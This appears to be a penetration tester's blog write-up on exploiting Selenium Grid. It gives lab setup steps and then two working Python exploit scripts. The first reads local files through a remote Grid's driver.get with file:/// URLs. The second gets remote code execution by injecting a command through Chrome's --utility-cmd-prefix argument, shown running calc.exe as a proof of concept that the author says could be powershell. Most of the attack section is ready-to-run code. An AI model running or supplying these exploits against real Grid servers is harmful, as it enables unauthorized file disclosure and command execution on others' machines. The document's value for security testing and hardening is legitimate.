






Hello everyone T3jv1l here, today I will share a few notes about selenium. I will show you a case I encountered doing penetration testing and how I was able to get LFI and RCE in Selenium Grid.
Prepare a lab environment. Install java from ((https://www.java.com/download/ie_manual.jsp)). Download the latest version of Selenium Grid ((https://selenium-release.storage.googleapis.com/3.141/selenium-server-standalone-3.141.59.jar)). Download the webdrive version of your browser. If you don't know your version, download any version and when you run selenium it will give you the error that you don't have version X installed and you will reinstall it ((https://chromedriver.chromium.org/downloads))
Start selenium:
java -jar C:\Users\nutcrackers\Downloads\selenium-server-standalone-3.141.59.jar -role node -hub http://127.0.0.1:4444/grid/register -browser "browserName=firefox,maxInstances=3,platform=WINDOWS" -browser "browserName=chrome,maxInstances=2,platform=WINDOWS" -Dwebdriver.chrome.driver="C:\Selenium\chromedriver.exe"


Now all setup is done. Let's start. The first time we will set up our webdriver using python. The selenium.webdriver module provides all the WebDriver implementations. Currently supported WebDriver implementations are Firefox, Chrome and more browser. To create the instance for Chrome and Firefox remote we will use:
driver = webdriver.Remote
The driver.get method will navigate to a page given by the URL here is the trick because we will put our payload here for LFI (file:///C:/). WebDriver will wait until the page has fully loaded (that is, the “onload” event has fired) before returning control to your test or script.
driver.get("file:///C:/Users/nutcrackers")
print(driver.page_source)
Final exploit for LFI is:
from selenium import webdriver
from selenium.webdriver.common.desired_capabilities import DesiredCapabilities
# load webdrive module from chrome instance/session
driver = webdriver.Remote(
command_executor='http://192.168.1.130:4444/wd/hub',
desired_capabilities=DesiredCapabilities.CHROME,
)
driver.get("file:///C:/Users/nutcrackers") # display info
print(driver.page_source)
driver.quit()

Open index.html

Now for remote code execution (RCE) is a little trick. We need to use the arguments from the browser to run powershell.exe or in this example a calc.exe
from selenium import webdriver
from selenium.webdriver.common.desired_capabilities import DesiredCapabilities
payload='calc.exe #' #payload just for POC
# execute chrome arguments
chrome_options = webdriver.ChromeOptions()
chrome_options.add_argument("--no-sandbox")
chrome_options.add_argument("--utility-and-browser")
chrome_options.add_argument("--utility-cmd-prefix="+payload)
driver = webdriver.Remote(
command_executor='http://192.168.1.130:4444/wd/hub',
desired_capabilities=DesiredCapabilities.CHROME,
options=chrome_options
)
driver.get("https://google.com")
driver.quit()
This script will be executed in loop!!!

References!!
https://selenium-python.readthedocs.io/getting-started.html#simple-usage